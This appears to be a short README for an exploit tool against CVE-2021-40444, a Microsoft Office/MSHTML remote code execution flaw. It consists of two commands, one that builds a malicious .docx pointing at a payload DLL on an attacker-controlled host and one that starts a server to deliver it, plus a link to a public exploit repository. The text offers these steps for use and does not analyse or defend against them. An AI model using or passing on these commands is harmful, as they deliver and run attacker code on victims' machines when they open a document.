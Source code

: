 ### Create malicious docx file
```
python3 exploit.py generate test/<payload>.dll http://<lhost>
```

### Start server
```
python3 exploit.py host 80
```

### Resource
https://github.com/lockedbyte/CVE-2021-40444  

